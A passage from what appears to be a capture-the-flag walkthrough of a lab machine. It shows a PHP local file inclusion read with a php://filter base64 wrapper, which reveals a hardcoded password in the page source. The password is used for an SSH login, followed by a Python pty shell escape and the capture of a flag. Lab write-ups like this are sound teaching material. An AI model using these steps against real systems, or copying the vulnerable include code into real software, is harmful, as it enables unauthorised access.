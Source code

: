 Great! The only other PHP file I was aware of at this time was index.php, so I decided to grab it and see if its contents could move me further into gaining a foothold into the system: 

```
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=index" | head -1 | base64 -d
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
.
.
.
```

Ah a password! I already had a username, so I figured the two were credentials for logging into something. Since the only other service I found was SSH on port 3333, it made sense to give that a shot: 

```
root@kali:~/pwn# ssh -p3333 mamadou@`cat target.txt`
mamadou@192.168.56.102's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

Success, kind of. Looks like it dropped me into a Python shell. No problem, that was easy to escape by spawning a shell on a pseudo-terminal:

```
>>> import pty;pty.spawn("/bin/bash")
>>> import pty;pty.spawn("/bin/bash")
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ ls -l
total 4
-rw-r--r-- 1 mamadou mamadou 41 Aug  1 15:52 flag1.txt
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
```
